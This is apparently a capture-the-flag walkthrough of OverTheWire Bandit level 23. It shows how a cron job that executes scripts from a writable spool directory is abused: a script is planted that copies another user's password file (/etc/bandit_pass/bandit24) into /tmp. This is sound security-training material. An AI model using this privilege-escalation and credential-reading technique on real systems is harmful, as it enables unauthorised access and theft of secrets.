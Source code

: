 
# Level 23
This is yet another `cron` job related challenge. As with the previous challenges, we need to determine what this `cron` job is doing.
```
bandit23@bandit:~$ ls /etc/cron.d/
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```
Now that we know what script the job is executing, we can try to take a look to see what it is doing.
```
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
Examining the script, we see that it will `cd` to `/var/spool/$myname`, where `$myname` is the name of the user that the script is ran as. It will then attempt to execute all scripts in that directory. If we can plant a script in `/var/spool/bandit24` directory, then we can have a script placed in that directory to retrieve the password. First, we check to see if we are able to write into that directory.
```
bandit23@bandit:~$ ls -l /var/spool
total 12
drwxrwx-wx 35 root bandit24 4096 Nov  3 16:47 bandit24
drwxr-xr-x  3 root root     4096 May  3  2020 cron
lrwxrwxrwx  1 root root        7 May  3  2020 mail -> ../mail
drwx------  2 root root     4096 Jan 14  2018 rsyslog
```
Since we can write in `/var/spool/bandit24`, we can write a simple script to try to grab the password. We make a directory in `/tmp` for us to work in, and create our script and give it proper permissions before using `cp` to place it into `/var/spool/bandit24`.
```
bandit23@bandit:~$ mkdir -p /tmp/germ
bandit23@bandit:~$ cd /tmp/germ
bandit23@bandit:/tmp/germ$ touch password
bandit23@bandit:/tmp/germ$ vi password.sh
bandit23@bandit:/tmp/germ$ cat password.sh 
#!/bin/bash
cat /etc/bandit_pass/bandit24 >> /tmp/germ/password
bandit23@bandit:/tmp/germ$ chmod 777 password.sh
bandit23@bandit:/tmp/germ$ chmod 666 password 
bandit23@bandit:/tmp/germ$ cp password.sh /var/spool/bandit24/
```
After waiting for a short bit, we can `cat` `password` for the next password.